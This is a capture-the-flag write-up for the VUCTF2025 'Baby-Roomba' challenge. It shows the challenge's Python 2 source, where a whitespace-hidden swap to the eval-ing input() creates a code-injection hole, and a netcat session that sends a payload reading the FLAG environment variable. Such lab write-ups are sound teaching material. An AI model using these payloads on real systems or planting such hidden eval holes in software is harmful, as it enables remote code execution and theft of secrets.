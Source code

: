 # VUCTF2025 Baby-Roomba

In this misc challenge we are given the ip of a roomba c&c server, as well as the source code. The description also reveals the flag will be stored in the `FLAG` environment variable.

When connecting to the ip, we are greeted with the following interface:

```
$ nc master-roomba.studsec.nl 4004
--------------------------------------------------------------------------------
|                         Welcome to Baby Roomba C&C!                          |
|                            "They shall grow old."                            |
--------------------------------------------------------------------------------

>>>
```

The source code reveals that this interface allows us to send certain commands, with the command `exec` sounding particularly interesting:
```
from __future__ import print_function
from random import randint    ; input = raw_input

print("".ljust(80, "-"))
print("|" + "Welcome to Baby Roomba C&C!".center(78) + "|")
print("|" + '"They shall grow old."'.center(78) + "|")
print("".ljust(80, "-"))
print("")

cmd = "1337"
while cmd != "exit":
    try:
        cmd = input(">>> ")

        if cmd == "exit":
            print("Goodbye!")
        elif cmd == "count":
            print("{0} baby roombas being trained!".format(randint(50, 5000)))
        elif cmd[:4] == "exec":
            print("Executing command: {0}".format(cmd))
            # TODO: implement the actual C&C code to the babies..
            raise NotImplementedError("C&C exec")
        elif cmd == "help":
            print("Commands: exit, count, exec, help")
        else:
            print("Invalid command. Type 'help' for a list")
    except NotImplementedError:
        print("C&C faced exception, going into fail mode!") ; input = __builtins__.input
    except:
        cmd = "exit"

```
Note that the statements `; input = raw_input` and `; input = __builtins__.input` were somewhat hidden in the file. There were tons of spaces before the `;`'s, causing the code to be out of view when opened in an IDE. I removed the spaces here for readability.
The code itself does not immediately show a clear path to gain command execution using the `exec` command, as this code path is not implemented in the challenge. However, the `NotImplementedError` does change the `input()` function used, which could be interesting.
I was unsure what the differences were between `raw_input` and `__builtins__.input`, so I did some research. I found a [StackOverflow post](https://stackoverflow.com/questions/7709022/is-it-ever-useful-to-use-pythons-input-over-raw-input), which describes that `__builtins__.input` in Python 2 evaluates input as code, and `raw_input` should be used instead.
Taking a look in the provided `Dockerfile`, we can see that this does indeed run on Python 2:
```
ENV DEBIAN_FRONTEND=noninteractive
RUN apt-get update && \
    apt-get install -y python2 socat && \
    ln -s /usr/bin/python2 /usr/bin/python
```
So, how can we exploit it? I found the following [article](https://github.com/3ls3if/Cybersecurity-Notes/blob/main/real-world-and-and-ctf/scripts-and-systems/python2-input-vulnerability.md), which contains an example payload:
```
__import__("os").system("uname -a")
```
We can alter this to instead print out the `FLAG` environment variable as follows:
```
print(__import__('os').environ['FLAG'])
```
Then in the final attack, we first use the `exec` command to switch to the unsafe `input()` function with the `NotImplementedError` exception, after which we can send our payload:
```
$ nc master-roomba.studsec.nl 4004
--------------------------------------------------------------------------------
|                         Welcome to Baby Roomba C&C!                          |
|                            "They shall grow old."                            |
--------------------------------------------------------------------------------

>>> exec
exec
Executing command: exec
C&C faced exception, going into fail mode!
>>> print(__import__('os').environ['FLAG'])
print(__import__('os').environ['FLAG'])
VUCTF{REDACTED}
```

